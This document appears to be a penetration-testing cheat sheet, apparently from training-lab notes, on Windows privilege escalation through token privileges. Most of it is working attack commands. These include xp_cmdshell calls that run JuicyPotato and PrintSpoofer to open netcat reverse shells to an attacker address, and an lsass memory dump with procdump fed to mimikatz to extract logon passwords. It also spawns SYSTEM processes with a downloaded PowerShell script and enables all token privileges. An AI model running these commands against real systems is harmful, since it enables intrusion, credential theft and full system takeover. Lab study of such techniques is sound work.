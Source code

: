 ## SeImpersonate Example - JuicyPotato

Scenario:
    Gaining foothold on SQL Server using privileged SQL user.

    - Achieve RCE using `xp_cmdshell` using creds from `logins.sql`
    - Connect with MSSQLClient.py
```bash
    mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

    - Enabling xp_cmdshell
    - `xp_cmdshell whoami /priv`
    - Drop JuicyPotato.exe and nc.exe onto the target
```
    xp_cmdshell c:\tools\Juicypotato.exe -l 53375 c:\windows\system32\cmd.exe 
        -a "/c c:\tools\nc.exe 10.10.14.3 -e cmd.exe" -t *
```

### Print Spoofer and RoguePotato

JuicyPotato doesn't work on WinServer 2019/Win10 build 1809 and newer.
However, PrintSpoofer and RoguePotato can be used.

PrintSpoofer can spawn a SYSTEM process in your current console.
```
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

## SeDebugPrivilege

`Sysinternals Suite` has `ProcDump` which can dump process memory.
```
whoami /priv -> SeDebugPrivilege (Enabled)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe -> log -> sekurlsa::mimidump lsass.dump
sekurlsa::logonpasswords -> 

Or manually from Desktop:

Task Manager -> Details -> R-Click(lsass.exe) -> Create Dump File
```

## RCE as SYSTEM with SeDebugPrivilege

Using a child-process using the elevated Debug rights.
The main idea is that the user in question has RCE and also has `SeDebugPrivilege`

- Transfer this script: 
	https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
	`tasklist` -> `winlogon.exe`
- Load the script with args-> 
	;  `[MyProcess]::CreateProcessFromParent(<system_pid>,<command>,"")`
- Or with `[MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id,"cmd.exe",""`

## SeTakeOwnershipPrivilege

This privilege assigns `WRITE_OWNER` rights over any securable object.

- `whoami /priv`
- Drop this script onto the target:
	https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
- `Import-Module .\Enable-Privilege.ps1`
- `.\EnableAllTokenPrivs.ps1`

